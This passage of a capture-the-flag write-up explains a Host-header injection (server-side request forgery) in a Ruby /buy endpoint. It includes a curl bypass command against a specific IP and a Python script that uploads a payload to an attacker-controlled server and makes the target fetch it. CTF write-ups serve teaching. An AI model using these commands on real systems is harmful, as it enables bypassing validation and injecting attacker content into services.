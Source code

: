 At this point some people started looking at the web stuff, while me and zander
started looking into `coooinbase.bin` and `rootfs.img`. Let's first take a look
at the website.

### Website
We do not have to give it valid information, we can give arbitrary file input.
The /buy endpoint takes the input value `HTTP_HOST` which we can just define
using curl:
```ruby
post '/buy' do
  uri = URI.parse("http://#{env['HTTP_HOST']}/gen-bson")
  b6 = Net::HTTP.post_form(uri, params).body
```

Bypass:
```console
$ curl "http://52.6.166.222:4567/buy" -H "Host: our-website.com/somewhere" -X POST
```

This will effectively take the contents of
`http://our-website.com/somewhere/gen-bson` and write it to the file. Thus
**bypassing all validation**.

#### Helper script for uploading
The below script uploads the file to a website and then triggers the bypass
from above.
```python
import requests
import sys
import os

if len(sys.argv) < 2:
    print("Usage: {} <filename>".format(sys.argv[0]))
    exit(1)

filename = sys.argv[1]

if not os.path.isfile(filename):
    print("File not found!")
    exit(1)

# Upload file to remote server
url = "https://our-website.com/lol"
r = requests.post(url, files={"file": open(filename,'rb')})
assert r.status_code == 200
print("[+] Payload uploaded to temporary server. Triggering...")

# Trigger it
r = requests.post("http://52.6.166.222:4567/buy", headers={"Host": "our-website.com/files/target.html#"})
print(r.status_code)
print(r.text)
```

